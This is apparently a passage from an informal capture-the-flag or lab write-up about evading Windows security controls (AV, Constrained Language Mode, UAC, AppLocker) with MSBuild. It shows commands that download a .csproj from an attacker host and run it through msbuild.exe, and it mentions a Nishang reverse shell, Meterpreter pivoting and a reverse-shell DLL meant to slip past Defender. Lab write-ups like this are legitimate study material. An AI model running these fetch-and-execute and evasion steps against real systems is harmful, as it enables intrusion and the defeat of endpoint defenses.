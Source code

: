![step3](step3.PNG)

were foolishly given access to msbuild which is use to compile binaries mauahahahahahahahahah. well use this to bypass all the crap in our way and move on to victory. 

csproj download https://github.com/Cn33liz/MSBuildShell

<mark></mark>

[Bypassing AV CLM or UAC'](https://github.com/MinatoTW/CLMBypassBlogpost/blob/master/Bypass/Bypass.csproj)s user account controls. super lame booo i think applockers in there to grouppolicy. I used 

@minatotw_ .csproj file sinces its like one of the ones i could find to bypass everything. i end up using a nishang Invoke-tcp.ps1 then pivoting and getting a meterpreter shell so i can gain access to the gui's 

```
iwr "http://10.10.14.2/minato.csproj" -outfile .\pinkie.csproj
c:\windows\microsoft.NET\Framework64\v4.0.30319\msbuild.exe .\pinkie.csproj
```

setup netcat and check and make sure python http server is running. 

*Assembling the DLL*

There are there parts to a dll when it comes to compiling them dllmain.cpp the payload revshell.cpp and a header file rev_shell.h. i tried compiling this in visual studios, i also tried the msfvenom build dlls. Defender Laughs.
